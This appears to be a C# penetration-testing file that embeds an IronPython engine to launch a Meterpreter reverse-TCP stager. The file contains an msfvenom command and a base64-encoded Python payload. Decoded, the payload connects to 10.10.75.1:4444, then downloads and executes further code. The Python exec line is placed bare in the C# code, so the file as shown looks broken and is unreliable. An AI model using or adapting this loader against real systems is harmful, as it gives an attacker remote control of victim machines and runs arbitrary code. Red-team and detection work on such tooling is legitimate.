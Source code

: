 // This is the excellent work of Chris Davis of Counter Hack
// Small edits by Joshua Wright for clarity

using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;

namespace csharp_py
{
    class Program
    {
        static void Main(string[] args)
        {
            // Create an IronPython engine to execute Python code
            Microsoft.Scripting.Hosting.ScriptEngine pythonEngine =
                IronPython.Hosting.Python.CreateEngine();

            // Print the default search paths
            // You may need to manually add these paths to include the DLLs necessary for execution
            System.Console.Out.WriteLine("Search paths:");
            ICollection<string> searchPaths = pythonEngine.GetSearchPaths();
            foreach (string path in searchPaths)
            {
                System.Console.Out.WriteLine(path);
            }
            System.Console.Out.WriteLine();

            // Now modify the search paths to include the directory
            // where the standard library has been installed
            searchPaths.Add(@"..\..\Lib");
            searchPaths.Add(@"..\Lib");
            searchPaths.Add(@".\Lib");
            pythonEngine.SetSearchPaths(searchPaths);

            // Execute the malicious Python coce
            // Replace the payload below with your own, possibly the output of msfvenom
            // msfvenom -p python/meterpreter/reverse_tcp LHOST=10.10.75.1
            exec(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('aW1wb3J0IHNvY2tldCx6bGliLGJhc2U2NCxzdHJ1Y3QsdGltZQpmb3IgeCBpbiByYW5nZSgxMCk6Cgl0cnk6CgkJcz1zb2NrZXQuc29ja2V0KDIsc29ja2V0LlNPQ0tfU1RSRUFNKQoJCXMuY29ubmVjdCgoJzEwLjEwLjc1LjEnLDQ0NDQpKQoJCWJyZWFrCglleGNlcHQ6CgkJdGltZS5zbGVlcCg1KQpsPXN0cnVjdC51bnBhY2soJz5JJyxzLnJlY3YoNCkpWzBdCmQ9cy5yZWN2KGwpCndoaWxlIGxlbihkKTxsOgoJZCs9cy5yZWN2KGwtbGVuKGQpKQpleGVjKHpsaWIuZGVjb21wcmVzcyhiYXNlNjQuYjY0ZGVjb2RlKGQpKSx7J3MnOnN9KQo=')[0]))

        }
    }
}